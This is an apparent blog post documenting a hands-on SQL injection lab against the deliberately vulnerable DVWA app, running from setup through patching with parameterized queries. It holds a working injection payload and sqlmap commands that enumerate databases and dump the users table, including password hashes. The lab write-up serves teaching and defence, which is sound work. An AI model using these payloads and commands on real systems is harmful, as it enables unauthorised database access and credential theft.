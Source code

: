 ```yaml
---
layout: post
title:  "Hands‑On SQL Injection Lab: DVWA from Exploit to Patch"
date: 2025-07-29 23:59:00 -0500
categories: pentesting web-security sql-injection
tags: [DVWA, SQLi, penetration-testing, cyber-security, git]
---
```


In this lab, we’ll walk through a complete **SQL Injection** lifecycle using the Damn Vulnerable Web Application (DVWA). You’ll learn how to:

1. **Set up** a two‑VM environment: Kali Linux (attacker) & Ubuntu + DVWA (target)  
2. **Manually exploit** the SQLi vulnerability  
3. **Automate** the attack with `sqlmap`  
4. **Troubleshoot** sessions, redirects, and cookie issues  
5. **Patch** the vulnerability and **verify** the fix

## TL;DR

- **Setup**: Two‑VM lab with Kali Linux (attacker) and Ubuntu + DVWA (target)  
- **Manual Exploit**: Used `1' OR '1'='1` in DVWA’s SQLi page to retrieve user records  
- **Automation**: Leveraged `sqlmap` with valid `PHPSESSID` and `security=low` cookies to dump the `dvwa.users` table  
- **Troubleshooting**: Resolved 302 redirects, cookie formatting, URL quoting, and cache issues (`--flush-session`)  
- **Patch**: Switched DVWA to “High” security—uses PDO parameterized queries—and confirmed injection is blocked  
- **Key Lesson**: Always use parameterized queries to prevent SQL Injection; hands‑on debugging is as important as the exploit.  

---

## 🛠 Environment Setup

1. **Ubuntu Server** VM (DVWA target)  
   - Install Apache, PHP, MySQL:  
     ```bash
     sudo apt update
     sudo apt install -y apache2 php libapache2-mod-php php-mysql mysql-server
     ```
   - Clone DVWA and configure database:  
     ```bash
     cd /var/www/html
     sudo git clone https://github.com/digininja/DVWA.git
     cd DVWA/config
     sudo cp config.inc.php.dist config.inc.php
     ```
   - Edit `config.inc.php`:
     ```php
     $_DVWA['db_user']                 = 'dvwauser';
     $_DVWA['db_password']             = 'password';
     $_DVWA['enable_phpids']           = false;
     $_DVWA['disable_authentication_tokens'] = true;
     ```
   - Create database & user in MySQL:
     ```sql
     CREATE DATABASE dvwa;
     CREATE USER 'dvwauser'@'localhost' IDENTIFIED BY 'password';
     GRANT ALL ON dvwa.* TO 'dvwauser'@'localhost';
     FLUSH PRIVILEGES;
     ```
   - Restart Apache and complete setup at `http://<IP>/DVWA/setup.php`.

   ![DVWA Setup Success](/assets/dvwa-setup.png)
   Ensure you follow DVWA set-up carefully as a misconfigured file gave me quite the headache!

2. **Kali Linux** VM (Attacker)  
   - Install tools:
     ```bash
     sudo apt update
     sudo apt install -y sqlmap curl
     ```
   - Ensure you can browse to DVWA (`admin`/`password`) and set security **Low**.

---

## 🔍 Phase 1: Manual SQL Injection

Navigate to:

```
http://<IP>/DVWA/vulnerabilities/sqli/
```

Enter in **ID** field:
```
1' OR '1'='1
```
Submit and observe multiple user records returned—proof of SQLi.

![](/assets/manual-sqli.png)

---

## 🤖 Phase 2: Automating with sqlmap

1. **Grab your session cookie** from the Kali browser (`PHPSESSID`, `security=low`).  
2. **Verify** access to the injection point:
   ```bash
   curl -IL --cookie "PHPSESSID=<ID>; security=low" \
       "http://<IP>/DVWA/vulnerabilities/sqli/?id=1"
   # Expect HTTP/1.1 200 OK
   ```

3. **Enumerate databases**:
   ```bash
   sqlmap -u "http://<IP>/DVWA/vulnerabilities/sqli/?id=1" \
     --cookie="PHPSESSID=<ID>; security=low" \
     --dbs --batch --flush-session
   ```
4. **Dump `users` table**:
   ```bash
   sqlmap -u "http://<IP>/DVWA/vulnerabilities/sqli/?id=1" \
     --cookie="PHPSESSID=<ID>; security=low" \
     -D dvwa -T users --dump --batch --flush-session
   ```

   You’ll retrieve `user_id`, `user`, and MD5 `password` hashes.

![](/assets/sqlmap-dump.png)

---

## 🔧 Troubleshooting Highlights

* **302 Redirects**: Ensure you log in from **Kali VM**, not host.
* **Cookie Errors**: Use correct format:
  ```
  --cookie="PHPSESSID=<ID>; security=low"
  ```
* **Malformed URL**: Wrap URL in quotes, include `?id=1`.
* **Cache Issues**: Use `--flush-session` to clear sqlmap cache.

---

## 🛡 Phase 3: Patching & Verification

1. In DVWA **Security** menu, set to **High** → Submit.
2. Review `high.php`—it uses PDO parameterized queries:
   ```php
   $stmt = $pdo->prepare("SELECT first_name, last_name FROM users WHERE user_id = :id");
   $stmt->bindParam(':id', $_GET['id'], PDO::PARAM_INT);
   $stmt->execute();
   ```
3. **Retest**:
   * Manual payload `1' OR '1'='1` → **no data**
   * `sqlmap --dbs` → **no injectable parameters**

![](/assets/patch-verified.png)

---

## 🎓 Key Takeaways

* **SQL Injection** exploits unvalidated input—classic payload `1' OR '1'='1`.
* Tools like **sqlmap** automate enumeration but require proper cookies & session context.
* **Prepared statements** are the gold‑standard defense against SQLi.
* Hands‑on troubleshooting is as critical as the exploit itself.

---

## 📂 Resources

* **GitHub Repo:** [JohnSeanson/sql-injection-dvwa-lab](https://github.com/JohnSeanson/sql-injection-dvwa-lab)
* **Live Report:** [johnseanson.github.io](https://johnseanson.github.io)
* **DVWA:** [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)
* **sqlmap:** [https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)

---

*Ready to try it yourself? Fork the repo, spin up your VMs, and share your results! Happy hacking and stay secure.*
